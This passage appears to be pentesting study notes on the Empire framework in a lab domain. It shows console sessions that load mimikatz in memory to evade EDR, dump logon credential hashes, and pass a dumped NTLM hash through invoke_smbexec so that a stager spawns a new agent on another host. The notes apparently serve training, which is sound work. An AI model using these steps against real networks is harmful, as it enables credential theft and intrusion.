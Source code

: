    Empire uses reflective [DLL injection](https://github.com/stephenfewer/ReflectiveDLLInjection) to load the mimikatz library into the agent directly from memory. Loading our malicious executable in this way minimizes the risk of detection since most EDR solutions only analyze files stored on the hard drive.
    
    ```bash
    (Empire: K678VC13) > usemodule credentials/mimikatz/logonpasswords
    (Empire: powershell/credentials/mimikatz/logonpasswords) > execute
    Job started: NXK271
    Hostname: client251.corp.com / S-1-5-21-3048852426-3234707088-723452474
    mimikatz(powershell) # sekurlsa::logonpasswords
    Authentication Id : 0 ; 244851 (00000000:0003bc73)
    Session : Interactive from 1
    User Name : offsec
    Domain : corp
    Logon Server : DC01
    Logon Time : 2/20/2019 10:36:32 PM
    SID : S-1-5-21-3048852426-3234707088-723452474-1103
    msv :
    [00000003] Primary
    * Username : offsec
    * Domain : corp
    * NTLM : e2b475c11da2a0748290d87aa966c327
    * SHA1 : 8c77f430e4ab8acb10ead387d64011c76400d26e
    * DPAPI : c10c264a27b63c4e66728bbef4be8aab
    tspkg :
    wdigest :
    * Username : offsec
    * Domain : corp
    * Password : (null)
    kerberos :
    * Username : offsec
    * Domain : CORP.COM
    * Password : (null)
    ssp :
    credman :
    ...
    ```
    
- `lateral_movement/`: contains all the module that allows to perform lateral movement actions:
    
    ```bash
    (Empire: K678VC13) > usemodule lateral_movement/technique
    inveigh_relay           invoke_psremoting   invoke_wmi
    invoke_dcom             invoke_smbexec      invoke_wmi_debugger
    invoke_executemsbuild   invoke_sqloscmd     jenkins_script_console
    invoke_psexec           invoke_sshcommand   new_gpo_immediate_task
    
    (Empire: K678VC13) > usemodule lateral_movement/invoke_smbexec
    (Empire: powershell/lateral_movement/invoke_smbexec) > set ComputerName client251
    (Empire: powershell/lateral_movement/invoke_smbexec) > set Listener http
    (Empire: powershell/lateral_movement/invoke_smbexec) > set Username jeff_admin
    (Empire: powershell/lateral_movement/invoke_smbexec) > set Hash e2b475c11da2a0748290d87aa966c327
    (Empire: powershell/lateral_movement/invoke_smbexec) > set Domain corp.com
    (Empire: powershell/lateral_movement/invoke_smbexec) > execute
    Command executed with service CVTERKCMPMMECQLRWLKB on client251
    [*] Sending POWERSHELL stager (stage 1) to 10.11.0.22
    [*] New agent UXVZ2NC3 checked in
    [+] Initial agent UXVZ2NC3 from 10.11.0.22 now active (Slack)
    ...
    
